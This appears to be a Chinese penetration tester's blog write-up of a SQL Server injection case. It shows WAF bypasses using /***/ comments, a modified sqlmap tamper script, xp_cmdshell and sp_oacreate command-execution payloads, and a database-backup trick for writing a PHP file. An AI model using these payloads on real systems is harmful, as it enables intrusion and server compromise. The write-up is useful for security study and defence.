






## 0x01 前言

本文非基础类的普及文章，主要分享内网中遇到的一个有趣案例。

## 0x02 Bypass注入点

通常情况下，遇到SQL Server注入点，我会比较关注是否是DBA权限，如果是，那么就可能拿到执行命令的权限，进而反弹到Ｃ2上，方便后续的后渗透工作。

一开始在一处比较复杂的功能点发现了SQL Server的注入，也是首先利用AND进行判断：



参数：ModuleType存在注入点，但是后面有一层站点全局输入的检测机制，从简单的测试来看，是不存在语法分析的一种，比较容易绕过。

我尝试了以下方案：

1. `and -> And`
2. `and -> /**/And`
3. `and -> /*xsww!s*/And`
4. `and -> /*xswwS1154-_[0)}!s*/And`
5. `and -> /***/And`

最终发现第五种可以绕过，使得后端无法辨别`/***/`是否和And是一个本体。

那么我猜想到了一个简单的表达式，似乎和这个过滤规则比较相向：`/*\w{0,}*/`



## 0x03 tamper 自动化实现

这里我比较懒，直接改了以下space2comment.py，这个脚本在Kali Linux中的sqlmap目录下：


核心代码：

``` python
for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "/**/"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "/**/"
                continue
```

只需要替换`/**/`即可：



接着，就可以跑出注入了\~

PS：我比较习惯于添加`--random-agent`参数，理由是在注入的过程中，避免被流量感知设备发现。



## 0x04 xp_cmdshell

到这一步的时候，我遇到了一个问题，SQLMAP调用exec master..xp_cmshell的时候被拦截了，因为后端还检测是否有`exec`、`master`，于是我还要将tamper加两句：

```
payload = payload.replace("exec","/***/Execute/***/")
payload = payload.replace("master..","/***//***/")
```

最终结果：`/***/execute/***//***/xp_cmdshell/***/'whoami'`

点击发包，还是无法执行，被360拦截了！



这个Error Code 5 ，是Windows的错误代码，中文意思就是：“拒绝访问”。

现在xp_cmdshell被拦截的很多了，但是sp_oacreate应该可以使用的：


参考我之前写的一篇文章：[Regsvr32 ole对象](https://payloads.online/archivers/2019-07-19/1)


```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >C:\who.txt'
```

> 后续我发现该服务器无法出网，还是站库分离

**因此无法执行操作系统命令**

## 0x05 写入文件

在写文件这块，我浪费了大量的时间，首先要确定能否向站点目录写文件，当前写文件的操作是否被拦截等等因素。

一开始的思路是调用xp_cmdshell，采用echo去写，目前已无法执行命令，就此作罢，吸了一口芙蓉王，精神焕发，遂查到数据库备份的方式。

提交：

```
{"ClientType": "", "ClientGuid": "09a37ee1-5ec3-46db-9279-4cb066622e8d", "ModuleType": "A2501';use test222;create table [dbo].[test2] ([cmd] [image]);insert/***/into/***/test2(cmd) values(0x3c3f70687020706870696e666f28293b3f3e);backup database test222 to disk='C:\test2.bak' WITH DIFFERENTIAL,FORMAT;-- ", "IsBackEnd": false }
```

页面返回正常。

但是，我的站点目录如果是中文呢？在Burp里处理就非常麻烦！

还记得之前的IIS 7.5吗，**IIS在接收到一个请求后，会自动将数据进行Unicode解码，如果流量设备、WAF不支持此特性的话，就可以进行绕过**，这里我着重解决中文目录的问题。



到这此文就结束了，我并没有成功Getshell，只是回顾我解决问题的思维方式，希望能对大家有用！

